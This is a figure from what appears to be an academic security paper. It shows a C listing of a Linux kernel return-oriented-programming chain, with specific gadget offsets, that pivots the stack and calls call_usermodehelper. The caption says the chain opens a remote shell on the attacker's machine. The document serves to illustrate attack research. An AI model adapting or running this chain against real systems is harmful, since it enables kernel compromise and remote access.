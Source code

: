 \begin{figure}[b]
\begin{adjustbox}{width=\linewidth}
\begin{lstlisting}[
        basicstyle = \footnotesize,
        columns = fullflexible,
        %frame = l,
        language = C
        ]
// stack
page[0xF68] = KERNEL_BASE + 0x0d7b05; // pop rsi; ret
page[0xF70] = &ATTACK_PAGE[0x400];
page[0xF78] = KERNEL_BASE + 0x12dacd; // pop rdi; ret
page[0xF80] = 0;
page[0xF88] = KERNEL_BASE + 0x11bac2; // pop rdx ; ret
page[0xF90] = 0;
page[0xF98] = KERNEL_BASE + 0x3a00d0; // &argv_split
page[0xFA0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFA8] = &ATTACK_PAGE[0x500];
page[0xFB0] = KERNEL_BASE + 0x1319ee; // push rax; jmp qword ptr[rcx]
page[0xFB8] = KERNEL_BASE + 0x5822a2; // mov rax, qword ptr [rax] ; ret
page[0xFC0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFC8] = &ATTACK_PAGE[0x508];
page[0xFD0] = KERNEL_BASE + 0x1319ee;// push rax; jmp qword ptr[rcx]
page[0xFD8] = KERNEL_BASE + 0x005dfc;// pop rcx ; ret
page[0xFE0] = 0;
page[0xFE8] = KERNEL_BASE + 0x0896a0; // &call_usermodehelper
page[0xFF0] = KERNEL_BASE + 0x4c0f0e; // xor rax, rax ; ret
page[0xFF8] = KERNEL_BASE + 0x003795; // leave ; ret
        \end{lstlisting}
\end{adjustbox}
        \caption{
                ROP attack to open a remote shell on the attacker's machine. The pivoting code uses \texttt{rdi} register, which points to the page, providing \means{}.}
        \label{fig:shellcode_2}
\end{figure}







